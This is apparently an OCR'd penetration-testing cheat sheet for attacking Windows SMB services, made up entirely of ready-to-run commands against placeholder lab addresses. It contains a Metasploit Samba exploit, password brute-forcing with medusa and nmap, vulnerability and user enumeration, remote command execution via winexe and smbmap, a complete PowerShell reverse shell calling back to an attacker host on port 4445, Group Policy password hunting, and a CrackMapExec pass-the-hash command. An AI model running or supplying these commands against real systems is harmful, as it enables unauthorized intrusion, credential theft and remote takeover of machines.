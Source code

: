 ```bash

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln 
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

# CrackMapExec
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local
```